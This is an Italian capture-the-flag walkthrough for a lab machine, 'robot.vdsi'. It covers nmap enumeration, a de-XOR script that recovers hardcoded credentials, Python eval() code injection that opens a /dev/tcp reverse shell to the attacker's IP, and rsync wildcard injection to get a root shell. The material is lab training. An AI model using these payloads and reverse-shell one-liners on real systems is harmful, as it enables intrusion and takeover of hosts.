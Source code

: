 ```table-of-contents
title: 
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 0 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```
# Enumerazione

Prima cosa da fare : 
- `nmap -sP <mio_ip>/24` per trovare l'ip della macchina target

Poi nmap su macchina target con :
- `nmap -sn -sC -sV <target_ip>`

Il risultato di nmap sarà il seguente : 

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-14 12:01 CEST
Stats: 0:00:12 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 83.33% done; ETC: 12:01 (0:00:02 remaining)
Stats: 0:00:12 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 95.34% done; ETC: 12:01 (0:00:00 remaining)
Nmap scan report for 10.0.2.5
Host is up (0.000061s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 5b:a3:21:7d:5d:a5:e9:0f:97:12:4f:ec:11:2c:70:a4 (RSA)
|   256 88:9a:df:c4:40:4a:21:97:f9:70:6b:81:7a:52:6b:76 (ECDSA)
|_  256 64:06:54:cd:e5:5d:df:d5:e1:c5:86:68:0e:40:01:60 (ED25519)
80/tcp   open  http     nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Welcome to nginx!
443/tcp  open  ssl/http nginx 1.18.0 (Ubuntu)
| tls-alpn:
|_  http/1.1
| ssl-cert: Subject: commonName=robot.vdsi/organizationName=VDSI/stateOrProvinceName=Lazio/countryName=IT
| Not valid before: 2021-07-20T11:23:27
|_Not valid after:  2022-07-20T11:23:27
| tls-nextprotoneg:
|_  http/1.1
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
8080/tcp open  http     nginx 1.18.0 (Ubuntu)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: nginx/1.18.0 (Ubuntu)
8081/tcp open  http     nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: nginx/1.18.0 (Ubuntu)
8082/tcp open  http     nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 08:00:27:5E:8E:E7 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.96 seconds
```
## Primo approccio

Navighiamo su http://10.0.2.5 e troviamo la pagina di benvenuto di nginx

Eseguiamo un gobuster sul sito e ci trova un endpoint "/connector", lo scarichiamo e lo apriamo con ghidra

Ghidra ci fa vedere il file decompliato, e da come possiamo vedere nel main viene eseguita la funzione `cryptHelper`, che cripta username e password usando determinati dati

Da come possiamo vedere, dopo aver usato al funzione cryptHelper, il risultato viene controllato e confrontato con due variaibli globali : 
- `DAT_0001207b`
- `DAT_00012085`

Che indicano rispettivamente username e password

Clicchiamo su ognugno ed evidenziamo i byte, poi tasto destro -> copy special -> python list, e il risultato dovrebbe essere il seguente

`[ 0x30, 0x0d, 0x13, 0x2e, 0x09, 0x16, 0x24, 0x0d, 0x17, 0x00 ]`

Stessa cosa la facciamo con l'altro dato, e poi usiamo questi dati in uno script python per effettuare il de-xor dei dati, il file si chiama dexor.py, ed è il seguente

```python
ENC_USERNAME = [0x30, 0x0D, 0x13, 0x2E, 0x09, 0x16, 0x24, 0x0D, 0x17, 0x00]
ENC_PASSWORD = [
    0x10,
    0x5B,
    0x13,
    0x78,
    0x09,
    0x49,
    0x24,
    0x5B,
    0x17,
    0x1B,
    0x51,
    0x5D,
    0x70,
    0x1F,
    0x0A,
    0x39,
    0x01,
    0x00,
]

KEY = "TheKey"

def de_xor(encrypted, key) -> str:

    key_idx = 0
    plaintext = ""
    for c in encrypted:
        plaintext += chr(ord(key[key_idx % len(key)]) ^ c)
        key_idx += 1
    return plaintext


print(
    f"username: {de_xor(ENC_USERNAME, KEY)[:-1]}, password:{de_xor(ENC_PASSWORD, KEY)[:-1]}"
)
```

lo eseguiamo e otteniamo delle credenziali, ovvero : 
- Username : `developer`
- Password : `D3v3l0p3rP4$$word`

Con queste credenziali proviamo ad entrare in ssh, ma non ci fa accedere, quindi dobbiamo fare un ulteriore enumerazione

# Enumerazione parte 2 (vhost)

Avevamo visti dalla scansione nmap che c'era un common name, ovvero `robot.vdsi`. Questo ci suggerisce la presenza di un virtual host.

(Se la scansione non va e da problemi del tipo : `dial tcp:lookup robot.vdsi no such host`, si rimedia cosi : 
- Aprire /etc/host
- Aggiungere <target_ip> robot.vdsi)

Proviamo ad enumerare con gobuster, e troviamo un vhost chiamato calculator.robot.vdsi (anche questo va aggiungo come robot.vdsi)

Una volta entrati ci chiede username e password, e qui possiamo usare quelli trovati prima

Controlliamo il codice sorgente della pagina, e troviamo un commento che ci dice che la pagina è stata scritta in python, quindi potrebbe usare la funzione `eval()` che sappaimo essere vulnerabile al **code injection**

Usiamo ciò per prendere la shell

Scriviamo questo nel campo che verrà preso in input : 
- `__import__('os').system("/bin/bash -c 'sh -i >& /dev/tcp/<tuo_ip>/<porta> 0>&1'")`

Dopo aver ottenuto la reverse shell, lanciamo il comando 

>**"python3 -c 'import pty;pty.spawn("/bin/bash")'"**

per spawnare una shell funzionante

Ora siamo l'utente blunder, e dobbiamo fare privilege escalation

# Utente blunder

Vediamo che nella cartella backup_container ci sono un crontab e un file chiamato backup.sh, nel file backup.sh vediamo che viene seguito il comando rsync -a * (la presenza di wildcart ci assicura un possibile exploit)

Vedendo online abbiamo trovato che si può fare la wildcard exploitations, e con rsync basta fare questo

- 1) creiamo un file shell.sh, al cui interno mettiamo la seguente stringa 
	- `bash -c 'bash -i >& /dev/tcp/<tuo_ip>/<porta> 0>&1'`
- 2) poi lanciamo il comando `touch -- '-e sh shell.sh'` e attendiamo la connessione

# Privilege Escalation

In teoria qui c'era da fare un ulteriore passaggio, ovvero passare per l'utente Aris, fare docker escape e poi prendere la shell di root, però una volta lanciato lo script shell.sh l'unica shelle che possiamo ottenere è quella di root, quindi bho

Una volta presa la shell con netcat, saremo utente ROOT